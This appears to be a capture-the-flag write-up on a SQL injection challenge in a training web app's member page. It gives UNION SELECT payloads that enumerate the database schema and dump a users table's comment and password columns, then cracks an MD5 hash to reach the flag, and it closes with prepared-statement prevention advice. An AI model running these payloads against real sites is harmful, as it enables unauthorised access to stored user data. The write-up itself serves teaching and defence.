 # SQL Injection - Members

`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Description

go to `/?page=member`

submit :
- `1 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`

"Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

password => 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo

FortyTwo = fortytwo 
fortytwo => sh256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

---

## How does it work ?

The query executed by the server is probably like `SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id= ` and then it is filled with the parameter sent by the client which should be a number. The id parameter is not protected, which means that you can inject SQL without the server detecting any problem.

You have to send a valid parameter to respect the SQL syntax : \
`SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id=1`

And then the door is opened to append another query to the current string :

`SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id=1 UNION SELECT Commentaire, countersign FROM Member_images.list_images`

The UNION statement allows us to get two other columns (the number of queried columns should be the same as in the first part of the query) from the table we want.

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."